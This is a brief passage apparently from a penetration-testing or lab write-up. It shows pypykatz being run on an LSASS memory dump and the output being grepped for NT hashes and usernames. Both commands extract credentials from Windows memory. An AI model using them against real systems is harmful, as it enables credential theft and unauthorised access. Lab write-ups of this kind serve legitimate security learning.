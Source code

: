 run the following:

```
pypykatz lsa minidump lsass.DMP > lsass.out
```

<figure><img src="../../../../.gitbook/assets/image (922).png" alt=""><figcaption></figcaption></figure>

Now we got plenty of args so we'll grep out what we think are interesting:

```
grep NT lsass.out -B3 | grep -i username
```
